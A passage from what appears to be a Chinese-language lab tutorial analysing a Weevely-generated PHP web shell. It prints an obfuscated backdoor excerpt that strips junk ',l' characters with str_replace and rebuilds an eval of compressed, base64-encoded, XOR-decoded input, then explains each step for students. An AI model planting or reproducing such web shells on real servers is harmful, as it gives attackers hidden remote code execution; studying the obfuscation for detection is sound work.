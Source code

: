 ```php
$K='$kh,l="5d,l41";$kf=,l",l402a";f,lunctionx($t,$k,l){$c=st,lrlen,l($k,l);$l=str,llen($t),l;$o,l="";for(,l$i=0;$i';
$m=',l_,lexists(,l$i,$s)),l{$s[$i,l].=$p,l;$e,l,l=strpos($,ls[$i],$,lf);if($e){$k=$,lk,lh.$kf;o,l,lb_start';
$T='();@ev,lal,l(@gzuncompre,lss,l(@x(@ba,lse64_deco,lde(p,lr,leg_replace(arr,l,lay(,l"/_/",",l/-/"),a,l';
$o='++)$p.,l,l=$q[$m[2][$z,l]],l;if(strpos(,l$p,$h),l=,l==0){,l$s[$i]="",l;$p=$ss,l($p,3,l);,l}if(array_key';
$C=str_replace('tp','','tpctpreattpetp_ftpunctption');
$x=str_replace(',l','',$K.$y.$S.$A.$Q.$j.$L.$o.$m.$T.$z.$r);
$I=$C('',$x);$I();
?>

```
在源码中，其`变量名`是随机生成的，所以直接查看代码的变量名，很难查找出有什么规律。感兴趣的同学，可以使用不同名字和密码，多生成几组 PHP 木马进行对比验证。在这堆乱码中，有两处非常关键的代码在倒数第二和第三行，在解释这两行代码之前，我们先看一下变量 `$r`：

![图片描述](../imgs/1482975799229.png-wm.png)

```
# 处理过的字符串，夹杂着欺骗字符
$r='b,lase6,l4_,lenc,lode(x(g,lzcompress($o,l),$k));
```

这里的意思是先将经 Weevely 随机生成，包含着`欺骗字符`的字符串赋值给 `$r`，接着通过函数 `str_replace` 洗掉其中的欺骗符号`,l`（这里使用`洗掉`比较易于理解，欺骗符号也是随机生成），洗掉欺骗符号的具体代码在倒数第二行：

```
# 洗掉欺骗字符，得到真正要执行的函数名称
$x=str_replace(',l','',$K.$y.$S.$A.$Q.$j.$L.$o.$m.$T.$z.$r);
```
对于插在代码中的欺骗符号之一 `,l`，可以看出有这么多（黄色标记的部分），在箭头一的位置，去掉欺骗字符后，就是一个正常的 `if` 语句：
